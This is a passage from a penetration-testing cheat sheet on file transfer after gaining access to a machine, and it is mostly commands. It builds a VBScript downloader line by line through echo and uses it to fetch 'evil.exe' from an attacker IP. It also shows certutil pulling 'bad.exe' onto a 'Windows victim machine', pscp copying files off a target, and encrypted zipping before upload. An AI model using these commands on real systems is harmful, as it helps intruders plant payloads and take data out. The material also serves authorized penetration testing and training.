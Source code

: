 In non-interactive shelll

```cmd
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs 
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs 
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

Usage:

	cscript wget.vbs http://192.168.46.1:8000/evil.exe evil.exe

---

## Downloading files using SSH (SCP)

On the kali machine you want to download from

	apt-get install putty-tools
	
	pscp user@192.168.0.10:/Users/username/file.ext ~/Desktop/file.ext

---

## Downloading files using CertUtil

On the Windows victim machine

	certutil.exe -urlcache -f http://10.0.0.5/40564.exe bad.exe

---

## Useful tips

1. Zip and encrypt the file before uploading.

		zip -e -r <zipped-filename.zip> <DirToEncrypt>